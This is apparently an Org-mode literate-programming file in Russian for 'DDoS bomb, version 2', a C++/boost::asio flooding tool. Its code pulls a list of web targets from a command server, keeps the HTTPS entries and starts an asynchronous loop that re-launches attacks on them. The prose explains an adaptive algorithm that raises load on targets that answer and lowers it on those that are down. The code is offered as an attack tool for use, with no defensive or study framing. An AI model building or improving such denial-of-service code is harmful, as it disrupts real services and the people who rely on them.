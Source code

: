 #+title: =DDoS=-бомба, версия 2

Первая версия =DDoS=-бомбы была реализована в [[file:~/job/state/ddos/code/bomb-old/bomb.org][bomb-old]] на основе библиотеки =Curl= и
многопоточности. Однако сама библиотека =Curl= не адаптирована к многопоточности, что приводит к
перекрестным ошибкам. Еще одним недостатком первой версии явилось то, что была использована
многопоточность, а не асинхронный защищенный ввод-вывод. Многопоточность на самом деле неэффективна на
дешевых однопроцессорных серверах, и нет смысла задействовать мощные сервера, так как самым узким
ресурсом является сетевой канал, а не процессор. Наконец, библиотека =Curl= позволяет работать только с
=HTTP/HTTPS=-запросами.

Новая версия реализована с помощью библиотеки [[https://www.boost.org/doc/libs/1_55_0/doc/html/boost_asio.html][boost::asio]], которая позволяет работать напрямую с сокетами
на нестандартных портах, выполнять отдельно разрешение имен и выполнять асинхронные запросы.

Кроме того, в новой версии реализован адаптивный алгоритм, который увеличивает нагрузку на успешные
запросы, и снижает там, где цель недоступна.

* Цель

Описана в файле [[file:Target.org][Target.org]].

* TODO Главный файл
:PROPERTIES:
:ID:       646a3b90-5a34-42a5-91ea-12a09ef3aece
:END:

#+begin_src c++ :noweb yes :tangle bomb.cc
  <<bomb:Импорт>>
  
  <<bomb:Пространство>>

  <<bomb:Данные>>

  <<bomb:Функции>>

  int main(int argc, char *argv[]) {
    <<bomb:main:Действия>>

    return 0;
  }
#+end_src

* Получение списка целей

Список целей получается с сервера. Оформим это в виде цепочки вызовов. Вначале получим адрес источника целей.

#+begin_src c++ :noweb-ref bomb:Импорт
  #include <boost/asio.hpp>
  #include <iostream>
  #include "WebTarget.hh"
#+end_src

#+begin_src c++ :noweb-ref bomb:Пространство
  using boost::asio::ip::tcp;
#+end_src

#+begin_src c++ :noweb-ref bomb:main:Действия
  boost::asio::io_service io;
  tcp::socket s(io);
  boost::asio::connect(s, tcp::resolver(io).resolve(tcp::resolver::query("stopwar.kosenko.info", "http")));

  boost::asio::streambuf rb;
  std::ostream os(&rb);
  os << "GET /targets/web HTTP/1.1\n"
     << "Host: stopwar.kosenko.info\n"
     << "Connection: close\n\n";

  boost::asio::write(s, rb);
  boost::asio::read_until(s, rb, "\n");

  std::istream is(&rb);
  std::string httpVersion;
  unsigned statusCode;
  std::string statusMessage;
  is >> httpVersion
     >> statusCode;
  getline(is, statusMessage);
  // std::cout << httpVersion << std::endl
  //           << statusCode << std::endl
  //           << statusMessage << std::endl;

  boost::asio::read_until(s, rb, "\r\n");
  std::string header;
  while (getline(is, header) && header != "\r") {
    // std::cout << header << std::endl;
  }

  boost::system::error_code e;
  boost::asio::read(s, rb, e);
  std::string result;
  getline(is, result);
  // std::cout << result;
#+end_src

* TODO Разбор строки результатов

В первой версии для разбора =JSON= использовалась библиотека =JAULA=, в новой версии используется [[https://github.com/open-source-parsers/jsoncpp][jsoncpp]]
(см. документацию в [[http://open-source-parsers.github.io/jsoncpp-docs/doxygen/index.html][Doxygen]]).

#+begin_src c++ :noweb-ref bomb:Импорт
  #include <jsoncpp/json/json.h>
  #include <list>
#+end_src

#+begin_src c++ :noweb-ref bomb:main:Действия
    std::istringstream ps(result);
    Json::Value root;
    ps >> root;

    std::list<WebTarget *> ts;
    for (auto i = root.begin(); i != root.end(); i++) {
      if ((*i)["service"].asString() == "https") {
        ts.push_back(WebTarget::make(*i));
      }
    }
#+end_src

* Порождение потока генераторов

#+begin_src c++ :noweb-ref bomb:Импорт
  #include <boost/bind/bind.hpp>
#+end_src

#+begin_src c++ :noweb-ref bomb:Функции
  void monitor(const boost::system::error_code &
             , std::list<WebTarget *> *ts
             , boost::asio::deadline_timer *t) {
    std::cout << "Active:\n";
    for (auto i = ts->begin(); i != ts->end(); i++) {
      if ((*i)->isActive()) {
        if ((*i)->genCount() > 1) {
          (*i)->show(std::cout);
        }
      } else {
        (*i)->call();
      }
    }
    t->expires_at(t->expires_at() + boost::posix_time::seconds(60));
    t->async_wait(boost::bind(monitor, boost::asio::placeholders::error, ts, t));
  }
#+end_src

#+begin_src c++ :noweb-ref bomb:main:Действия
  boost::asio::deadline_timer t(WebTarget::ioService, boost::posix_time::seconds(0));
  t.async_wait(boost::bind(monitor, boost::asio::placeholders::error, &ts, &t));

  WebTarget::ioService.run();
#+end_src

